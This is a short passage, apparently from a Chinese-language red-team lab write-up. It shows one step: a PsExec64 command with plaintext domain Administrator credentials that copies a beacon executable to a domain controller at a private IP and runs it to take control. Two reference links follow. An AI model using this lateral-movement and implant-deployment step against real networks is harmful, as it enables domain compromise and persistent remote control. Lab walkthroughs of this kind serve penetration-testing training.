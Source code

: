 执行命令，上线域控

```
**shell C:\phpStudy\PHPTutorial\WWW\public\PsExec64.exe -accepteula \\192.168.138.138 -u sun\Administrator -p dc123.com -d -c C:\phpStudy\PHPTutorial\WWW\public\newtingbeacon.exe**
```

![img](assets/1691832951845-0a27565c-e02b-46d2-9581-1cb9dea93926.png)





# 参考文章：

https://www.yuque.com/airtail/wb4prk/vnneyd#P4hui

https://www.freebuf.com/column/231458.html